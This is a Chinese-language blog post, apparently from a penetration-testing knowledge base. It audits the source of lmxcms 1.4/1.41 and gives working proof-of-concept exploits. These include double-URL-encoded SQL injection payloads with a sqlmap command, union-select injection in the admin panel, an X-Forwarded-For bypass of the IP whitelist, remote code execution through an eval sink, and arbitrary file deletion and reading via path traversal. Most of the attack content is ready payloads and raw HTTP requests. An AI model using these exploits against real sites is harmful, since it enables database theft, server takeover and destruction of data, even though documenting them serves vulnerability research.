 ```yaml
---
title: lmxcms全漏洞poc
copyright: true
date: 2022-02-10 14:52:26
tags: 渗透测试
---
```

lmxcms源码审计
<!-- more -->
**1.4前台sql注入漏洞**  
c/index/TagsAction.class.php  
1.构造函数通过_POST方式获取name变量  
2.p函数对数据校验，过滤关键字+addslashes转义  
3.通过delHtml函数（strip_tag函数）去除标签对，进行一次url编码  
4.sql拼接查询   
![1.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/1.png)  
![2.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/2.png?raw=true)  
![3.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/3.png?raw=true)  
数据检查后进行了一次urldecode，可以通过两次url编码绕过addslashes函数的转义  
```
poc: 'and (updatexml(1,concat(0x7e,(database()),0x7e),1)) and '1'='1  

两次Urldecode：http://127.0.0.1:8081/lmxcms1.4/index.php?m=tags&a=index&name=%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%63%25%33%31%25%32%39%25%32%39%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%37%25%33%31%25%32%37%25%33%64%25%32%37%25%33%31
```
![4.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/4.png?raw=true)  
lmx1.txt  
```
GET /lmxcms1.4/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jiit711t06f5plsu8fo7bbqla2; XDEBUG_SESSION=XDEBUG_ECLIPSE
Upgrade-Insecure-Requests: 1
```
sqlmap：  
```
python2 sqlmap.py -r lmx1.txt --technique=E -v3 --tamper=chardoubleencode -p name --dbs
```

**1.4/1.41后台sql注入漏洞**  
c/index/AcquisiAction.class.class.php  
POST的参数未过滤，但后台本身可以执行sql语句（无回显），此漏洞危害较低  
![5.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/5.png?raw=true)  
```
poc：1' and updatexml(0,concat(0x7e,database()),1) and '1
```
![6.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/6.png?raw=true)  
c/admin/AcquisAction.class.php 中 311行查询时对获取的lid参数未检验，且sql语句直接拼接，导致sql注入  
![7.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/7.png?raw=true)  
![8.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/8.png?raw=true)  
```
Poc: http://127.0.0.1:8081/lmxcms1.4/admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,(select+1+and+(updatexml(1,concat(0x7e,(select+database()),0x7e),1))),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![9.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/9.png?raw=true)  
**1.4/1.41绕过ip白名单**  

后台ip白名单可通过X-Forwarded-For 绕过  
![10.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/10.png?raw=true)  

**1.4/1.41后台任意代码执行**
c/admin/AcquisAction.class.php 中 318行eval执行了$temdata['data']参数，该参数的值是从lmx_cj_list数据表中查询出的array字段的值，而查询时存在sql注入导致该字段可控，从而导致任意代码执行。  
![11.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/11.png?raw=true)  
```
Poc: admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,'1;system(\'ipconfig\');',1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![12.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/12.png?raw=true)  
**1.4/1.41 后台任意文件删除**  
c/admin/FileAction.class.php 中使用unlink方法删除文件，unlink方法调用php unlink方法，此处未对传入的路径做检查，存在任意文件删除。  
![13.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/13.png?raw=true)  

poc:  
```
POST /lmxcms1.4/admin.php?m=File&a=delete HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/lmxcms1.4/admin.php?m=File&a=index&type=0
Upgrade-Insecure-Requests: 1

type=0&delImages=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87&fid%5B%5D=7#####/test.txt
```
其中test.txt在index.php 同级目录下，且可使用..进行目录穿越。  
**1.4/1.41 后台任意文件读取**  
c/admin/TemplateAction.class.php  
![14.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/14.png?raw=true)  
![15.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/15.png?raw=true)  
![16.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/16.png?raw=true)  
poc:
```
http://localhost:8081/lmxcms1.4/admin.php?m=Template&a=editfile&dir=../flag.txt
```
